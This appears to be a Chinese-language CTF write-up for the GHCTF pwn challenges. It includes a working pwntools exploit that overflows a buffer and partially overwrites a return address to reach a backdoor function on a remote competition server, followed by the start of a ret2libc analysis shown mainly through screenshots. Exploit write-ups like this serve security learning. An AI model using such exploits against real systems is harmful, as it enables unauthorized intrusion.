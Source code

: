 ```yaml
---
title: GHCTF PWN WP
date: '2025-03-05 18:58:43'
updated: '2025-04-07 21:33:52'
---
```

## Hello_world
程序开了 PIE 保护，没有 canary，有后门函数

利用 partial_overwrite 来修改返回地址到后门函数

exp：

```python
#!/usr/bin/env python3

from pwn import *
context.log_level = 'debug'
context.arch = 'amd64'
context.os = 'linux'
# link=process("./hw")
link=remote("node2.anna.nssctf.cn",28370)

link.recvuntil(b'pwner!')
payload=b'a'*0x28+b'\xc1'

# gdb.attach(link)
# pause()

link.send(payload)

link.interactive()
```

## ret2libc1
没有 canary 和 PIE

![](/images/98374474e5dbb17dfa7f473914e3fc70.png)

程序打印出来有 5 个选项，但是实际上还有第六个隐藏了的：

![](/images/0b99371cb5f70e6f371135f5ca6c138c.png)

隐藏选项跟前面这个 hell_money 搭配可以直接钱生钱

![](/images/8bb6798bb378d434fd43fa3769ab9695.png)

然后进到 shop 函数里面就可以得到一个很长的 read：

![](/images/364daa2b65b86aab73aafc97033ae9ae.png)
